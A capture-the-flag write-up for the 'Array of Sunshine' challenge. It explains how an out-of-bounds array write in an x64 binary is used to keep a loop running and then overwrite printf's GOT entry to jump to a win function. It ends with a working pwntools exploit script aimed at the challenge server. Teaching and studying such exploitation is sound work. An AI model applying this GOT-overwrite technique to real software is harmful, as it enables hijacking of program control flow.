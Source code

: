 # Array of Sunshine

The challenge is to exploit an index out of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
replace the print@got.plt-address with the address of the win-function:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```

![pwn](img9.png)


